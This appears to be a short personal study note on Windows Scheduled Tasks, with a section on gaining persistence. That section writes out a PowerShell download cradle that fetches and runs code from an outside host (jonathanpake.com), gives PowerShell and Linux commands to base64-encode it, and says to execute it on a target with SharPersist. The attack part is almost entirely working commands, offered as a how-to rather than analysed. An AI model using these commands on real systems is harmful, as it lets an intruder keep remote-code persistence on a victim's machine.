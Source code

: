 ```yaml
---
tags:
  - knowledge
  - windows
date: 2023-09-1
---
```


- [[Scheduled Tasks]] can be configured to run at specific times or triggered by some event.
- This is similiar to [[Cron]].
	- Usually run with the privileges of the user who created them but admins can run tasks as other users, including SYSTEM.
# Gaining Persistence

- In powershell
	- Payload to run: `$str = 'IEX ((new-object net.webclient).downloadstring("http://jonathanpake.com/a"))'`
	- Convert to base64: `[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))`
- In Linux
	- `set str 'IEX ((new-object net.webclient).downloadstring("http://jonathanpake.com/a"))'`
	- `echo -en $str | iconv -t UTF-16LE | base64 -w 0`
- Execute on target with [[SharPersist]]

